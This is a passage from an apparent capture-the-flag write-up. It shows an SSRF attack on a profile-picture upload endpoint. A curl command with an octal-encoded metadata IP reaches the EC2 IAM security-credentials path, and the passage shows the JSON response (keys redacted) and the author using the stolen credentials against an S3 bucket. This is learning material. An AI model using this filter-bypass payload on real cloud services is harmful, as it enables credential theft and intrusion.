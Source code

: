 ![image.png](./assets/images/3a1c8529-deb6-4156-b339-fa166130c9c7.png)

Thus the SSRF had successfully reached the IAM security-credentials path, and the response `@cloudsek-ctf` feels like a role name(which turns out to be the name of EC2 instance) attached to EC2 instance.

`
curl -i \
  -X POST "http://15.206.47.5:5000/api/profile/upload_pic" \
  -H "Content-Type: application/json" \
  -H "Accept: */*" \
  -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJfaWQiOiJmMmY5Njg1NS04YzA1LTQ1OTktYTk4Yy1mN2YyZmQ3MThmYTIiLCJ1c2VybmFtZSI6InIwMHR1czNyIn0.aKvuAw.DXnL0uWC0Xsb7UKHOQDL3lrotdw" \
  -d '{"image_url": "http://0251%2E0376%2E0251%2E0376/latest/meta-data/iam/security-credentials/%40cloudsek-ctf"}'
`

Thus yielding the output:

`
{
  "Code": "Success",
  "LastUpdated": "2025-08-25T06:48:19Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "<REDACTED_ACCESS_KEY_ID>",
  "SecretAccessKey": "<REDACTED_SECRET_ACCESS_KEY>",
  "Token": "<REDACTED_SESSION_TOKEN>",
  "Expiration": "2025-08-25T13:00:52Z"
}
`
Thus I now have AWS_Access_Key,AWS_Secret_Access_Key,AWS_Session_Key and pushed them all into env variable to get access of the s3 bucket. 
